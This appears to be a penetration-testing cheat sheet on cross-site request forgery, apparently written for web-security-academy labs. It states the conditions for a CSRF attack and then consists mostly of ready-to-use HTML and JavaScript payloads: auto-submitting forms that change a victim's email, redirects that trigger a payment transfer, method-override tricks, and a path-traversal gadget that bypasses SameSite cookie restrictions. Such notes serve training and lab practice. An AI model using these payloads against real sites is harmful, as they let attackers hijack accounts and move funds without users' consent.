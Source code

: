 # CSRF

For a CSRF attack to be possible, three key conditions must be in place:

1. **A relevant action:** There is an action within the application that the attacker has a reason to induce. This might be a privileged action (such as modifying permissions for other users) or any action on user-specific data (such as changing the user's own password).
2. **Cookie-based session handling:** Performing the action involves issuing one or more HTTP requests, and the application relies solely on session cookies to identify the user who has made the requests. There is no other mechanism in place for tracking sessions or validating user requests.
3. **No unpredictable request parameters:** The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess. For example, when causing a user to change their password, the function is not vulnerable if an attacker needs to know the value of the existing password.



{% code overflow="wrap" %}
```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
{% endcode %}

{% code overflow="wrap" %}
```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```
{% endcode %}



_**Bypass SameSite=Lax:**_

* Easiest

{% code overflow="wrap" %}
```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```
{% endcode %}

* Override method with `_method`

{% code overflow="wrap" %}
```html
<script>
    document.location = "https://vulnerable-website.com/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```
{% endcode %}

* If GET requests not allowed

{% code overflow="wrap" %}
```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
{% endcode %}

_**Bypass SameSite=Strict with path traversal to mimic GET request**_

* Study the change email function
  * Identify a suitable gadget
  * Bypass the SameSite restrictions
  * Craft an exploit

{% code overflow="wrap" %}
```html
<script>
    document.location = "https://vulnerable-website.com/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```
{% endcode %}

> \[!NOTE]
>
> * In this context `postID` is used to search for a file
> * `postId` parameter is used to elicit a GET request for an arbitrary endpoint on the target site.

{% code overflow="wrap" %}
```html
<html>
  <body>
    <form action="https://0a10004a037d9afe812a435900b80094.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test1&#64;email&#46;com" />
      <input required type="hidden" name="csrf" value="Oua0PaST7D7hjyAlbF27PwmkVvt9O3vh">
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
{% endcode %}

{% code overflow="wrap" %}
```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> 
	<input type="hidden" name="email" value="anything%40web-security-academy.net"> </form> 
<script> 
	document.forms[0].submit(); 
</script>
```
{% endcode %}

{% code overflow="wrap" %}
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ab900f903252fbb85fd4a2700260079.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="new&#64;email&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
{% endcode %}



